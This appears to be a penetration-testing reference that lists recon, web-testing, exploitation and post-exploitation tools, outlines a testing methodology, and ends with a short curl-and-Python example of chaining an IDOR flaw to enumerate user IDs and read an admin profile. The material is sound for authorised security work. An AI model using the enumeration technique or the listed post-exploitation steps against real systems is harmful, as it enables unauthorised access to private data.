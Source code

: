 **Advanced Penetration Testing Toolkit**:

**Reconnaissance and Discovery**:
- Nmap for port scanning and service enumeration
- Masscan for large-scale port discovery
- Subfinder, Amass for subdomain enumeration
- Directory brute-forcing with Gobuster, Dirb, Dirbuster
- Parameter discovery with Arjun, ParamSpider
- JavaScript analysis with LinkFinder, JSParser
- Git repository analysis with GitTools, TruffleHog

**Web Application Testing**:
- Burp Suite Professional for comprehensive testing
- OWASP ZAP for automated scanning and manual testing
- SQLmap for SQL injection exploitation
- Nuclei for vulnerability scanning with custom templates
- Wfuzz for parameter fuzzing and brute-forcing
- ffuf for fast web fuzzing and content discovery
- Commix for command injection testing

**Exploitation Frameworks**:
- Custom Python/bash scripts for specific vulnerabilities
- Metasploit modules for known exploits
- Exploit-DB and searchsploit for public exploits
- Custom JavaScript payloads for client-side attacks
- Reverse shell generators and listeners
- Post-exploitation tools for maintaining access

**Specialized Testing Tools**:
- JWT.io and jwt-tool for JSON Web Token manipulation
- GraphQL testing with GraphiQL and custom queries
- WebSocket testing with wscat and custom scripts
- Docker and container security testing tools
- Cloud-specific testing tools for AWS, Azure, GCP
- API testing with Postman and custom scripts

**Exploitation Methodologies**:

**Systematic Testing Approach**:
1. **Reconnaissance Phase**: Subdomain enumeration, port scanning, technology fingerprinting
2. **Attack Surface Mapping**: Endpoint discovery, parameter identification, functionality analysis
3. **Automated Scanning**: Vulnerability scanners, template-based detection, baseline assessment
4. **Manual Testing**: Business logic analysis, custom attack development, bypass techniques
5. **Exploitation Phase**: Proof-of-concept development, impact demonstration, access escalation
6. **Post-Exploitation**: Persistence, lateral movement, data exfiltration simulation

**Vulnerability Chaining Examples**:

```python
# Example: IDOR to Admin Access Chain
# Step 1: Discover IDOR in user profile endpoint
curl -H "Authorization: Bearer user_token" \
  https://api.target.com/users/123/profile

# Step 2: Enumerate admin user IDs through predictable patterns
for i in range(1, 100):
    response = requests.get(f"https://api.target.com/users/{i}/profile", 
                          headers={"Authorization": f"Bearer {user_token}"})
    if "admin" in response.text:
        admin_id = i
        break

# Step 3: Access admin profile and extract sensitive data
admin_data = requests.get(f"https://api.target.com/users/{admin_id}/profile",
                         headers={"Authorization": f"Bearer {user_token}"})

# Step 4: Use admin information for further attacks or demonstrate impact
```